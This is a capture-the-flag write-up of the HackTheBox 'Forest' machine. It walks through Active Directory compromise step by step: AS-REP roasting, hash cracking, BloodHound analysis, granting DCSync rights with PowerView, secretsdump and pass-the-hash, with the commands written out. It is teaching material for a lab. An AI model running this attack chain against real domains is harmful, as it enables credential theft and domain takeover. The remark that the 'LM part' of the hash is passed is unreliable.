 +++
title = 'HackTheBox Forest Write-Up: Active Directory 101'
date = 2023-07-26T23:45:25+03:00
draft = false
+++

![](1.png)

Forest is an easy [HackTheBox](https://hackthebox.com/) machine which I did as part of the [Active Directory 101](https://app.hackthebox.com/tracks/Active-Directory-101) track.

It requires that you're familiar with SMB enumeration, hash cracking, AS-REP roasting, basic AD enumeration and some Impacket scripts.

## Enumeration

I started with a basic nmap scan first just to see which ports are open and then moved on to enumerating those specifically with the following command:

`nmap -Pn -sCV -p53,88,135,139,389,445,464,593,636,3268,3269 10.10.10.161`

![](2.png)

The open ports are more or less what you would except to see on a Domain Controller.

![](3.png)

We have the domain and forest name, and we also find out that message signing is not just enabled but required which cuts off some attack paths for us right off the bat.

### Port 445 — SMB

Let's do some SMB enumeration anyway, starting with **smbclient**:

![](4.png)

Anonymous login is successful, but no shares are listed.

Next we'll run enum4linux, and this actually gives us back some information.

`enum4linux -a 10.10.10.161`

![](5.png)

The account "svc-alfresco" is immediately eye-catching. It's a service account which tend to be configured with too permissive privileges.

![](6.png)

Enum4Linux also gives us the password policy which is great news, as we'll likely be able to crack some hashes with such a weak policy.

![](7.png)

### AS-REP Roasting

Since we only have some usernames, we could try to perform an AS-REP roasting attack.

AS-REP Roasting is a technique that can let us retrieve password hashes for AD users whose account options have been set to "Do not require Kerberos pre-authentication".

We need the `GetNPUsers.py` script from Impacket to perferm the attack. We're going to use the -format flag to ensure any hashes will be ready for hashcat.

We'll run the script with the DC IP and domain name, if that doesn't work, we'll put the users we've gathered in a list and try to check against that.

`GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb-local/' -format hashcat`

![](8.png)

And we've got a hash for the service account we found earlier. Perfect.

Time to put hashcat to work and see if we can crack it.

What we have is a Kerberos 5, etype 23, AS-REP hash, which corresponds to hash mode 18200 in hashcat.

`hashcat -a 0 -m 18200 nphash.txt /usr/share/wordlists/rockyou.txt`

![](9.png)

We have a hit, the hash is quickly cracked and the password is s3rvice, which goes along with the weak 7-character minimum password policy.

So now we have some credentials - svc-alfresco : s3rvice.

## User Flag

Now let's use those credentials to try and gain a shell on the system. We don't have a lot of options, psexec and the like will not work.

My next thought was to try with Evil-WinRM and it worked!

![](10.png)

We can grab the user flag from the Desktop of our user.

## Active Directory Enumeration

Now let's upload SharpHound using the in-built upload function of Evil-WinRM and run it so we can enumerate the domain.

`upload /root/Downloads/HTB/Forest/SharpHound.exe C:\Users\svc-alfresco\Desktop\SharpHound.exe`

![](11.png)

![](12.png)

We can then use the download function to transfer the resulting ***.zip*** file back to our own machine so we can import it into BloodHound.

![](13.png)

Once the import is done, we can mark the user svc-alfresco as owned. Let's check for the shortest path to Domain Admin from our owned principals.

![](14.png)

There's clearly a lot of group nesting going on in this domain, which is quite useful to us.

`svc-alfresco` is a service account, part of the group called "*Service Accounts*". That group itself is part of the group "*Privileged IT Accounts*", which belongs to the "*Account Operators*" group.

We have the privileges of all of these groups.

The "*Account Operators*" group has **GenericAll** permissions over the "*Exchange Windows Permissions*" group, which means we do, so we can do anything we want, we can control the group membership of "*Exchange Windows Permissions*", therefore we can add a user directly to that group.

Now that group has **WriteDacl** permissions over the HTB.LOCAL, that means we have permissions to modify the DACL (Discretionary Access Control List) on the domain.

With write access to the target object's DACL, we can grant ourselves any privilege we want on the object, such as DCSync rights.

We're largely just going to follow the instructions that we get from the BloodHound help menu.

We're going to need PowerView to succesfully exploit this, so we'll upload it to the machine.

### Exploitation

We upload and import the module into Powershell.

We need to authenticate to the Domain Controller as a member of the "*Exchange Windows Permissions*" group. In order do this along with the PowerView function `Add-DomainObjectAcl`, we will first create a PSCredential object:

```PowerShell
$username = 'svc-alfresco';
$password = 's3rvice';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```
![](15.png)

Then we're going to add our user svc-alfresco to the "*Exchange Windows Permissions*" group.

```PowerShell
Add-ADGroupMember -Identity "EXCHANGE WINDOWS PERMISSIONS" -Members 'svc-alfresco'
```
And after that we're going to run the command that will grant us DCSync rights.

```PowerShell
Add-DomainObjectAcl -TargetIdentity 'DC=htb,DC=local' -Rights DCSync -Verbose -PrincipalIdentity 'htb\svc-alfresco' -credential $credential
```
![](16.png)

![](17.png)

## Root Flag

I then tried to upload and run **mimikatz** on the machine, but it threw an error and didn't work.

![](18.png)

That's not our only option though. Impacket to the rescue once again.

I tried to run `secretsdump.py` with our user and their newly granted privileges made the attempt successful.

![](19.png)

Now that we have the Administrator hash, the domain is as good as ours.

We just need to perform a **pass-the-hash** attack, which we can do once again with Evil-WinRM.

We need the `-H` flag and we can pass the LM part of the NTLM hash that we dumped from the Domain Controller.

![](20.png)

We've successfully logged in as the Administrator and we can grab the root flag from the Administrator's desktop.

---

Thank you to the creators of this box — [egre55](https://app.hackthebox.com/users/1190) and [mrb3n](https://app.hackthebox.com/users/2984). It's a very fun Active Directory box to test your enumeration skills, knowledge of common AD attacks and tools.

If you made it this far, thank you for reading!